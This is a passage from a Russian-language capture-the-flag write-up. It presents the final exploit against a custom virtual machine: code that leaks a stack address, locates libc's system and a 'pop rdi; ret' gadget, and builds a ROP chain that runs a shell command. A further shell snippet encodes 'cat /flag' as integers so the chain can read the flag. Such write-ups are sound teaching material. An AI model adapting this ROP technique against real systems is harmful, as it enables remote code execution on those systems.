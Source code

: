 Наконец, можно заняться украшательствами и добиться того, чтобы программа не крашилась после `system`, а вызывала функцию `exit`, но это уже необязательно.

Окончательный эксплоит выглядит так:

```asm
// Достаем адрес стека
pop a
sub a 328
// Сдвигаем на 88 байт вперед, чтобы указывало в начало шелл-кода
add a 88

// Получаем адрес system
pop b
pop b
pop b
pop b
pop b
pop b
pop b
add b 176144

// Получаем адрес pop rdi; ret
mov c b
sub c 174523

// Кладём на стек подряд шелл-код, адрес pop rdi; ret, адрес шелл-кода, адрес ret и адрес system
pop d
pop d
pop d
pop d
mov d 13264972891059052
push d
mov d c
add d 1
push b
push d
push a
push c
```

Запуская этот эксплоит на удалённом сервере, находим в корне файл `/flag`.

Чтобы заменить команду `ls -l /` на `cat /flag`, недостаточно просто изменить число, которое кладётся на стек, ведь `cat /flag` с нулевым байтом занимает 10 байт, что не влезает в одно машинное слово. Можно было бы схитрить и сократить команду до `cat /f*`, но разберёмся, как сделать честно:

```shell
$ printf "cat /flag\0" | rev | xxd -p
67616c662f20746163

$ echo $((0x67)) $((0x616c662f20746163))
103 7020098271757754723
```
